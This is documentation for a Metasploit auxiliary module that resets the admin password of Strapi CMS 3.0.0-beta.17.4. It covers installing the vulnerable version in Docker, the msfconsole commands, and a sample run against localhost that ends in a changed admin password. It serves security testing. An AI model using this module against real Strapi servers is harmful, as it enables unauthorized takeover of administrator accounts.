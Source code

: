 ## Vulnerable Application

This module abuses the mishandling of a password reset request for 
Strapi CMS version 3.0.0-beta.17.4 to change the password of the admin user.

Successfully tested against Strapi CMS version 3.0.0-beta.17.4.

### Install


```
docker run -it -p 1337:1337 --rm node:16 /bin/bash
export CXXFLAGS="-std=c++17"
# Complete the quickstart
npm install -g create-strapi-app@3.0.0-beta.17.4 && create-strapi-app yourProjectName
```

Navigate to http://localhost:1337/ to verify the application is running. Now create the first admin account at http://localhost:1337/admin

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/strapi_3_password_reset`
1. Do: `set new_password testtesttest`
1. Do: `set rport 1337`
1. Do: `set rhosts 127.0.0.1`
1. Do: `run`
1. You should be able to reset the admin users password

## Options

### NEW_PASSWORD

New Admin password. No default.

## Scenarios

### npx install of strapi 3.0.0-beta.17.4

```
msf6 > use auxiliary/scanner/http/strapi_3_password_reset
msf6 auxiliary(scanner/http/strapi_3_password_reset) > set new_password testtesttest
new_password => testtesttest
msf6 auxiliary(scanner/http/strapi_3_password_reset) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 auxiliary(scanner/http/strapi_3_password_reset) > set rport 1337
rport => 1337
msf6 auxiliary(scanner/http/strapi_3_password_reset) > check
[-] This module does not support check.
msf6 auxiliary(scanner/http/strapi_3_password_reset) > run

[*] Resetting admin password...
[+] Password changed successfully!
[+] User: superadminuser
[+] Email: none@none.com
[+] PASSWORD: testtesttest
[*] Auxiliary module execution completed
```
